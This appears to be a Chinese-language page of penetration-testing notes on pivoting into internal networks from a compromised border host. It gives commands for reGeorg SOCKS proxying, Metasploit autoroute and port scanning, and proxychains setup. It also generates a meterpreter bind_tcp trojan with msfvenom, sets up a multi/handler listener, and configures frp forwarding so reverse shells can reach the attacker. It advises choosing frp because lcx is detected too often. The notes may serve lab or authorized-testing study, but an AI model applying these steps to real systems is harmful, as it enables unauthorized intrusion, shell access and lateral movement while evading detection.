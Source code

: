 提不了就别提了，不是非要提权(试李妈半天都提不起，不知道这些exp谁写的)

### 一级代理

* 靶机`python reGeorgSocksProxy.py -u http://IP -p 代理端口`建立代理转发服务器
* ipconfig或者其他的看下网段，`run autoroute -s 网端`开启路由转发
* `use auxiliary/scanner/discovery`、nmap、ping扫描等扫同网端存活主机
* 扫描端口`use auxiliary/scanner/portscan/tcp`或者nmap扫，设置一下rhost和常用端口，运行
* `vim /etc/proxychains.conf`配置代理，浏览器开代理访问内网网站(建议foxyProxy插件)

如果开了80端口，接下来就是搞内网的站，拿内网的webshell。注意蚁剑和burpsuit等工具也要配置代理

**reGeorgSocksProxy指定的端口要和proxychains.conf文件里的端口一致**，因为这波操作的意义就是把边界机当作跳板，regeorgsocksproxy.py在边界机起到代理服务器的作用,proxychains就是客户端


内网的站打下来了重复上述步骤到提权。

### 二层内网渗透（bind）

* 生成msf木马`msfvenom -p windows/meterpreter/bind_tcp lport=xxx -f exe -o 文件名`，因为内网不能直接连外网的原因,reverse版木马无法使用，但是我们有代理可以连内网。上传
* 同理，生成了木马本地就需要有msf进程监听。`use exploit/multi/handler`，然后`set payload windows/meterpreter/bind_tcp`，payload和msf木马所用payload一致，设置参数lport和rhost.（这里开监听是在边界服务器开，也就是之前msf的边界服务器终端，lport当然也是边界机的端口，相当于~~本机msf对靶机边界机~~ 的渗透变为了==靶机边界机对内网二层机==)
* 在二层内网机提权运行msf木马拿到shell后，`run autoroute -s 另一内网网段`添加路由
* 扫描，老样子，那几个扫描用啥都行，`run arp_scanner -r 网段`进行arp扫描


如果非要用reverse的连接方式呢，今天我皮痒，或者有防火墙只能出。
很简单，用到端口转发。如果将边界机监听reverse的端口转发到本地端口，二层内网机reverse到边界机的端口就相当于直接和本地通信

lcx被检测概率太大，用**frp**

#### 二层内网渗透(frp工具reverse)

关于frp要分清楚客户端和服务端到底应该放在哪。具体可以看==frpc.ini==和==frps.ini==

比如某frpc.ini的内容

```
[common]
server_addr=172.16.12.2
server_port=7100
[ssh]
type=tcp
local_ip=127.0.0.1
local_port=5000
remote_port=5000
```

如上，客户端连接服务端的7000端口，是将本机的5000端口数据以tcp转发到172.16.12.2的5000端口。因为你开frp也需要端口的嘛。这样连接服务端的5000端口就相当于连接客户端的5000端口。
服务端只有两行，监听一下就行了

```
[common]
bind_port=7100
```
